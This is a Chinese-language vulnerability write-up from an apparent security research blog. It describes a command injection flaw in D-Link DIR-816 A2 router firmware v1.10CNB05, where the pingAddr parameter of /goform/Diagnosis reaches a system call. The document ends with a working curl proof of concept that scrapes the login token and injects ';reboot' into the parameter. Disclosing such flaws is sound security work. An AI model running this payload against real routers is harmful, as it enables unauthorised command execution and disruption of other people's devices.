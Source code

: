 #  从命令注入到空指针：IoT漏洞的挖掘   
原创 wh1tep0et  白帽100安全攻防实验室   2023-08-16 11:54  
  
# Dlink DIR-816 命令注入漏洞  
## Overview  
```
厂商网址：https://www.dlink.com/

固件下载地址：http://support.dlink.com.cn:9000/ProductInfo.aspx?m=DIR-816
```  
## Vulnerability information  
  
Dlink DIR-816A2_FWv1.10CNB05中存在一个命令注入漏洞，可以在路由系统中执行任意命令。  
## Affected version  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aFJv52grsibsx4ibOQCBSVXGNwogSJvYFrE9uMZZuJSibSUOhibdP5MlWakHoaicB9L8bvDXPouUWBbwzhp6CqqFSCA/640?wx_fmt=png "")  
  
图中显示了路由器的最新固件:A2_FWv1.10CNB05  
## Vulnerability details  
  
在webs上可以看到硬件版本是A2 1.10。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aFJv52grsibsx4ibOQCBSVXGNwogSJvYFrlib0ZqibqJOqS734gKxiaeMgHibGODbPUUjbLFRKDPkcicR1piclnRMgB61Q/640?wx_fmt=png "")  
  
在goahead中，我们可以在sub_45AC4C中找到代码细节，程序将通过pingAddr参数获得的内容传递给V2。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aFJv52grsibsx4ibOQCBSVXGNwogSJvYFrbavjibXldibZ5uXAktuSliaFrvp701MlFy9vteNManFLQHpe4TQqyJLAw/640?wx_fmt=png "")  
  
然后，通过snprintf函数将V2匹配的内容格式化为V10。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aFJv52grsibsx4ibOQCBSVXGNwogSJvYFr1u2rDVV6pb9Oiaj7ePkaiaP7P6pWqOFhskQxTU3XsM8fopbvsxg0Oiaibw/640?wx_fmt=png "")  
  
V10参数由函数doSystembk()调用，存在命令注入漏洞。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aFJv52grsibsx4ibOQCBSVXGNwogSJvYFr2FD3ibn7RhCyWqq3NIPQZAgKHB0icR9DBEX3eXr2G2iaZ1mHldt0ia1rQg/640?wx_fmt=png "")  
## Vulnerability exploitation condition  
  
需要获取cookie来执行攻击。  
## Recurring vulnerabilities and POC  
  
为了重现该漏洞，可以遵循以下步骤:  
1. 连接物理设备  
  
1. 使用以下shell命令进行攻击  
  
Poc如下  
```
TOKENID=`curl -s http://192.168.0.1/dir_login.asp | grep tokenid | head -1 | grep -o 'value="[0-9]*"' | cut -f 2 -d = | tr -d '"'`

curl -i -X POST http://192.168.0.1/goform/Diagnosis -d tokenid=$TOKENID -d 'pingAddr=192.168.0.1;reboot'
```  
  